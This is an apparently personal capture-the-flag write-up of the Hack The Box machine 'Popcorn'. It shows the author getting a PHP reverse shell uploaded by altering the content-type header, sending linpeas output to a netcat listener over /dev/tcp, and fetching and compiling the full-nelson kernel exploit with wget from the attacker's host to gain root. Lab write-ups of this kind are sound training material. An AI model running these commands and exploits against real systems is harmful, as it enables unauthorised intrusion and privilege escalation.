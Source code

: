 ```yaml
---
description: >-
  The moment you accept things as they are, you don’t need to hope anymore,
  because you realize where you are is kind of okay. - Jason Louv
icon: popcorn
---
```


# Hack The Box - Popcorn Writeup

As usual, we start off with a lazy nmap scan:

```
┌──(kali㉿kali)-[~]
└─$ nmap 10.129.45.92 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-30 22:19 EDT
Nmap scan report for popcorn.htb (10.129.45.92)
Host is up (0.092s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.92 seconds
```

This is a web box, and as usual, we have 80 and 22 open. After adding popcorn.htb to my hosts file, we go check out the website:

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Looks like some kind of Torrent website. There is a login page, and a signup page. Let's go ahead and make an account:

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

We login and see some options:

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

The most obvious option of interest is the upload functionality:

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

We can see that this website utilizes php, so we will try uploaded a php shell. We will utilize pentestmonkeys reverse shell: [https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

When trying to upload the php file straight, it does not let us:

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

I tried many different variations, but the upload functionality seems very strict. I even tried tampering with a legitimate torrent a little bit, and it would not take it. So I grabbed a perfectly valid torrent file online and uploaded it:

<figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

After poking around a little, I find another interesting place to upload files. You can upload a screenshot for your torrent after uploading:

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

All I had to do was tinker with the content-type header, and it took it, no problem:

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

After refreshing the web page, nothing happened at first. However, after clicking on the "Image File Not Found" picture/button, it attempts to expand the "picture", and triggers our paylaod:

<figure><img src="../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 4444    
listening on [any] 4444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.129.45.92] 57357
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 05:44:06 up  1:07,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

Let's run some linpeas. I want the color, so I pipe the contents back to my netcat:

```
www-data@popcorn:/var/www/.ssh$ wget http://10.10.16.5/linpeas.sh
wget http://10.10.16.5/linpeas.sh
--2025-05-31 06:05:18--  http://10.10.16.5/linpeas.sh
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 840139 (820K) [text/x-sh]
Saving to: `linpeas.sh'

100%[======================================>] 840,139      527K/s   in 1.6s    

2025-05-31 06:05:20 (527 KB/s) - `linpeas.sh' saved [840139/840139]

www-data@popcorn:/var/www/.ssh$ echo $SHELL
echo $SHELL
/bin/sh
www-data@popcorn:/var/www/.ssh$ /bin/bash
/bin/bash
www-data@popcorn:/var/www/.ssh$ chmod +x linpeas.sh
chmod +x linpeas.sh
www-data@popcorn:/var/www/.ssh$ ./linpeas.sh > /dev/tcp/10.10.16.5/4445
```

```
┌──(kali㉿kali)-[~/tools]
└─$ nc -nvlp 4445     
listening on [any] 4445 ...
connect to [10.10.16.5] from (UNKNOWN) [10.129.45.92] 41142



                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄

```

The output gives an insane amount of OS vulnerabilities, which it is likely vulnerable to multiple. I parsed it down to choose one that had a date labeled prior to the release of the box (2017), and landed on:

```
[+] [CVE-2012-0056,CVE-2010-3849,CVE-2010-3850] full-nelson                                                         

   Details: http://vulnfactory.org/exploits/full-nelson.c
   Exposure: highly probable
   Tags: [ ubuntu=(9.10|10.10){kernel:2.6.(31|35)-(14|19)-(server|generic)} ],ubuntu=10.04{kernel:2.6.32-(21|24)-server}
   Download URL: http://vulnfactory.org/exploits/full-nelson.c
```

After grabbinb it, compiling on the box, and running it:

```
www-data@popcorn:/var/www/.ssh$ wget http://10.10.16.5/nelson.c
wget http://10.10.16.5/nelson.c
--2025-05-31 06:11:11--  http://10.10.16.5/nelson.c
Connecting to 10.10.16.5:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9124 (8.9K) [text/x-csrc]
Saving to: `nelson.c'

100%[======================================>] 9,124       --.-K/s   in 0.09s   

2025-05-31 06:11:12 (104 KB/s) - `nelson.c' saved [9124/9124]

www-data@popcorn:/var/www/.ssh$ chmod +x nelson.c
chmod +x nelson.c
www-data@popcorn:/var/www/.ssh$ gcc nelson.c -o nelson
gcc nelson.c -o nelson
www-data@popcorn:/var/www/.ssh$ ./nelson
./nelson
[*] Resolving kernel addresses...
 [+] Resolved econet_ioctl to 0xf841d280
 [+] Resolved econet_ops to 0xf841d360
 [+] Resolved commit_creds to 0xc01645d0
 [+] Resolved prepare_kernel_cred to 0xc01647d0
[*] Calculating target...
[*] Triggering payload...
[*] Got root!
# id
id
uid=0(root) gid=0(root)
# cat /root/flag.txt
cat /root/flag.txt
cat: /root/flag.txt: No such file or directory
# cd /root
ls
cd /root
ls
# root.txt
# cat root.txt
cat root.txt
7a95f77DEADBEEF31c73bb346a83ddf2
```

This was actually a very easy box. The upload bypass was not tricky, and privilege escalation was also very easy. However, I still find the easy boxes a lot of fun, as they can offer a good change of pace. They also get you to touch back on more basic skills that the more difficult boxes will likely not employ.
